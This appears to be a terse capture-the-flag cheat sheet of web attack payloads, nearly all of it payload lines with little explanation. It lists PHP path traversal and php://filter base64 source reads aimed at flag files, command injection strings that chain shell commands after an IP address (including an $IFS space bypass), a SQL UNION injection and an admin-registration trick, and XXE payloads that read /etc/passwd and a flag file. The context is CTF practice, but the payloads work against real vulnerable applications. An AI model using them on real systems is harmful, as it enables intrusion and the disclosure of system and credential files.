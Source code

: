 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- SELECT * FROM exploits WHERE ID=1 `UNION SELECT 1,2--`

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
